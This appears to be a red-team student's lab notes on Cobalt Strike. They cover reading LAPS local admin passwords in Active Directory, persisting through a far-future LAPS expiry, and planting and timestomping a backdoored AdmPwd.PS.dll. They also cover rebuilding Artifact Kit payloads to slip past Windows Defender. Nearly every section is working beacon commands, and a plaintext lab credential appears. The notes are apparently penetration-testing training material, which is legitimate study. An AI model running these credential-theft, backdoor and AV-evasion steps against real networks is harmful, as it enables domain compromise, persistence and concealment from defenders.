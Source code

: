 ```
- If you don't have access to the native LAPS cmdlets, PowerView can find the principals that have ReadPropery on ms-Mcs-AdmPwd. There are also other tools such as the LAPSToolkit:
	beacon> powershell Get-DomainObjectAcl -SearchBase "LDAP://OU=Workstations,DC=dev,DC=cyberbotic,DC=io" -ResolveGUIDs | ? { $_.ObjectAceType -eq "ms-Mcs-AdmPwd" -and $_.ActiveDirectoryRights -like "*ReadProperty*" } | select ObjectDN, SecurityIdentifier

	beacon> powershell ConvertFrom-SID S-1-5-21-3263068140-2042698922-2891547269-1125
	beacon> make_token DEV\jking Purpl3Drag0n
	beacon> powershell Get-DomainObject -Identity wkstn-2 -Properties ms-Mcs-AdmPwd
```

###### <font style="color:#00b3ff">LAPS Persistence</font> 
```
- Setting the expiration date of LAPS password into the future:
	beacon> powershell Get-DomainObject -Identity wkstn-2 -Properties ms-mcs-admpwdexpirationtime

- The expiration time is an epoch value that we can increase to any arbitrary value. Because the computer accounts are allowed to update the LAPS password attributes, we need to be SYSTEM on said computer:
	beacon> run hostname
	beacon> getuid
	beacon> powershell Set-DomainObject -Identity wkstn-2 -Set @{"ms-mcs-admpwdexpirationtime"="232609935231523081"}

- The PowerShell cmdlets for LAPS can be found in C:\Windows\System32\WindowsPowerShell\v1.0\Modules\AdmPwd.PS

- Upload backdoor DLL:
	beacon> upload C:\Tools\admpwd\Main\AdmPwd.PS\bin\Debug\AdmPwd.PS.dll

- Modify the timestamp:
	beacon> timestomp AdmPwd.PS.dll AdmPwd.PS.psd1
```

---

###### <font style="color:#00b3ff">Bypassing AV</font> 
```
- Get-MpThreatDetection is a Windows Defender cmdlet that can also show detected threats:

	beacon> remote-exec winrm dc-2 Get-MpThreatDetection | select ActionSuccess, DomainUser, ProcessName, Resources
```

###### <font style="color:#00b3ff">Artifact Kit</font> 
```
- Generate a Windows Service EXE and save it to C:\Payloads, then scan it with ThreatCheck:

C:\>C:\Tools\ThreatCheck\ThreatCheck\ThreatCheck\bin\Debug\ThreatCheck.exe -f C:\Payloads\beacon-smb-svc.exe

- Searching for where MSSE appears in the kit, we find it's in bypass-pipe.c:
	root@kali:/opt/cobaltstrike/artifact-kit# grep -r MSSE

- To build these changes, run the build.sh script:
	root@kali:/opt/cobaltstrike/artifact-kit# ./build.sh

- Within the dist-pipe directory you'll see a new list of artifacts that have been built, along with an artifact.cna file. The CNA file contains some Aggressor that tells Cobalt Strike to use these artifacts inside of the default ones:
	root@kali:/opt/cobaltstrike/artifact-kit# ls -l dist-pipe/

- Copy (after editing) the whole dist-pipe directory to C:\Tools\cobaltstrike\ArtifactKit:
	C:\Tools\cobaltstrike>pscp -r root@kali:/opt/cobaltstrike/artifact-kit/dist-pipe .
```
